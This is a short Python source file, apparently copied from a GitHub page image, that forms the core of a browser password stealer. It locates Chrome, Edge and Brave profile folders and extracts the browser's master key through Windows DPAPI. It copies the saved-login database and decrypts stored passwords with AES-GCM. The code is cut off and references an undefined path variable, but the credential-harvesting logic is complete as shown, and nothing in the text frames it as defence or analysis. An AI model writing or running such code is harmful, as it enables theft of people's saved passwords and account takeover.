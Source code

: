 ```python
import os
import re
import json
import base64
import sqlite3
import win32crypt
from Cryptodome.Cipher import AES
import shutil
import requests

  

appdata = os.environ['USERPROFILE']
browsers = {

    'google-chrome-sxs': appdata + '\\AppData\\Local\\Google\\Chrome SxS\\User Data',
    'google-chrome': appdata + '\\AppData\\Local\\Google\\Chrome\\User Data',
    'microsoft-edge': appdata + '\\AppData\\Local\\Microsoft\\Edge\\User Data',
    'brave': appdata + '\\AppData\\Local\\BraveSoftware\\Brave-Browser\\User Data',
}

def get_secret_key():
    try:
        with open( PATH_LSTATE, "r", encoding='utf-8') as f:
            local_state = f.read()
            local_state = json.loads(local_state)
        secret_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
        #Remove suffix DPAPI
        secret_key = secret_key[5:]
        secret_key = win32crypt.CryptUnprotectData(secret_key, None, None, None, 0)[1]
        return secret_key
    except:
        return None

def decrypt_payload(cipher, payload):
    return cipher.decrypt(payload)

def generate_cipher(aes_key, iv):
    return AES.new(aes_key, AES.MODE_GCM, iv)

def decrypt_password(ciphertext, secret_key):
    try:
        iv = ciphertext[3:15]
        encrypted_password = ciphertext[15:-16]
        cipher = generate_cipher(secret_key, iv)
        decrypted_pass = decrypt_payload(cipher, encrypted_password)
        decrypted_pass = decrypted_pass.decode()  
        return decrypted_pass
    except:
        return ""

def get_db_connection(login_db):
    try:
        shutil.copy2(login_db, "Loginvault.db")
        return sqlite3.connect("Loginvault.db")
    except:
        return None

def installed_browsers():
    available = []
    for x in browsers.keys():
        if os.path.exists(browsers[x]):
            available.append(x)
```
